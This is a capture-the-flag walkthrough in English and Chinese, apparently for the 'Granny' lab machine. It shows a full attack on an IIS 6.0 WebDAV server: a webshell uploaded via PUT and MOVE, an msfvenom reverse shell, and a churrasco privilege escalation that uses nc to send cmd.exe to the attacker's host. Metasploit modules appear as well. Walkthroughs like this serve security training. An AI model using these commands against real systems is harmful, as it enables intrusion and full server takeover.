






**Granny, while similar to Grandpa, can be exploited using several different methods. The intended method of solving this machine is the widely-known Webdav upload vulnerability.**

```
可以通过多种不同的方法被利用
解决该机器的预期方法是广为人知的Webdav上传漏洞
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.234 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.95.234

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 26 Apr 2024 04:12:10 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

### <span style="color:lightgreen">Website - TCP 80</span>



```
nothing
```

```http
curl -I 10.129.95.234
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.129.95.234/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:39e"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Fri, 26 Apr 2024 04:22:30 GMT
```

```
windows
IIS6.0
ASP.NET

如果以某种方式上传aspx文件,我们将获取服务器的webshell权限
```

### <span style="color:lightgreen">davtest Tools</span>

```
此工具可以让我们知道可以上传哪些类型的文件，以及是否可以创建目录

davtest -url http://10.129.95.234/
```



```
Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK

虽然无法上传aspx文件,
但是我们可以上传后缀名为txt的webshell文件,后续利用MOVE 方法进行重命名
```

## <span style="color:lightblue">Foothold</span>
### <span style="color:lightgreen">Upload Webshell</span>

```
cp /usr/share/webshells/aspx/cmdasp.aspx .

curl -X PUT http://10.129.95.234/0xdd.txt -d @cmdasp.aspx
```



### <span style="color:lightgreen">Move Webshell</span>

```
curl -X MOVE -H 'Destination:http://10.129.95.234/0xdd.aspx' http://10.129.95.234/0xdd.txt
```




## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">churrasco 巴西烤肉提权</span>


```
sudo rlwrap nc -lvnp 443

msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.16 LPORT=443 -o shell.aspx

curl -X PUT http://10.129.95.234/evill.txt --data-binary @shell.aspx
curl -X MOVE -H 'Destination:http://10.129.95.234/evill.aspx' http://10.129.95.234/evill.txt
curl http://10.129.95.234/evill.aspx
```

```
sudo rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.234.
Ncat: Connection from 10.129.95.234:1042.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service
```

```
历史漏洞提取
https://www.exploit-db.com/exploits/6705

上传nc 以及漏洞利用exp
https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

```
nc用这个
/usr/share/sqlninja/apps/nc.exe

mv nc.exe nc.txt
curl -X PUT http://10.129.95.234/nc.txt --data-binary @nc.txt

mv churrasco.exe churrasco.txt
curl -X PUT http://10.129.95.234/churrasco.txt --data-binary @churrasco.txt
```

```
ren nc.txt nc.exe
ren churrasco.txt churrasco.exe
```

```
churrasco.exe -d "\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.16 443"
```

```
sudo rlwrap  nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.234.
Ncat: Connection from 10.129.95.234:1045.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system
```

## <span style="color:lightblue">Metasploit</span>

```
sudo msfconsole -q

exploit/windows/iis/iis_webdav_upload_asp
```



```
(Meterpreter 1)(c:\windows\system32\inetsrv) > run post/multi/recon/local_exploit_suggester
```

```
windows/local/ms10_015_kitrap0d

1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

```
migrate 1972
```



